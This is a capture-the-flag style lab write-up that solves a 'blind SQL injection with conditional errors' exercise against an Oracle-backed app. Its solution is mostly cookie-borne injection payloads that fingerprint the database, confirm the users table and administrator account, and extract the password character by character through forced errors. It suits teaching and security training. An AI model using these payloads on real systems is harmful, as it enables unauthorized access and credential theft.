

# Blind SQL injection with conditional errors
# Objective
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.\
\
The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.\
\
The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.\
\
To solve the lab, log in as the administrator user.


# Solution

Expected query structure concerning TrackingId:\
```
SELECT TrackingId FROM TrackingIdTable WHERE TrackingId='8e4W3X5FoxstfJs7'
```

## Identyfing database type (vendor)
```
Cookie value: TrackingId=19nxWi7TLGPOQ4bv' || (select '') ||'
```
||
|:--:| 
| Returns Error |

```
Cookie value: TrackingId=19nxWi7TLGPOQ4bv' || (select '' from dual) ||'
```
||
|:--:| 
| Payload worked. It is Oracle database |

```
Application is vulnerable - TrackingId=19nxWi7TLGPOQ4bv' || (select '' from tablethatdoestexist) ||'
```
||
|:--:| 
| Returns Error |

## Checking that the users table exists
```
Cookie value: TrackingId=19nxWi7TLGPOQ4bv' || (select '' from users where rownum=1) ||'
```
Query above returns code 200 OK. It confirm that users table exists. \
`where rownum=1` is important because otherwise response would be HTTP 500. It limits result to 1. Otherwise application would output empty entry for every entry in database breaking the query.

## Checking that the user administrator exists
```
Cookie value: TrackingId=19nxWi7TLGPOQ4bv' || (select '' from users where username='administrator') ||'
```
Using above query it is not possible to verify whether administrator user exists.

```
Test payload 1: ' || (SELECT CASE WHEN (1=69) THEN TO_CHAR(1/0) ELSE '' END FROM dual) ||'
```
||
|:--:| 
| *Test payload 1* |

```
Test payload 2: ' || (SELECT CASE WHEN (69=69) THEN TO_CHAR(1/0) ELSE '' END FROM dual) ||'
```
||
|:--:| 
| *Test payload 2* |

```
TrackingId=19nxWi7TLGPOQ4bv' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator') ||'
```
Order of execution of above query:
1. `FROM users where username='administrator'` is evaluated. 
2. If given user exist then the rest of the query is evaluated - `SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE ...`

||
|:--:| 
| *User administrator exists* |

||
|:--:| 
| *User does NOT exist* |

## Retrieving password length of administrator’s password
Administrator’s password length is 20
```
Cookie value: TrackingId=19nxWi7TLGPOQ4bv' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and length(password)>1) ||'
```


## Retrieving administrator’s password
```
Cookie value: TrackingId=19nxWi7TLGPOQ4bv' || (select case when (1=1) then TO_CHAR(1/0) else '' end from users where username='administrator' and SUBSTR(password,1,1)='a') ||'
```


HTTP 500 Response Code -> Correct letter \
HTTP 200 Response Code -> Wrong letter

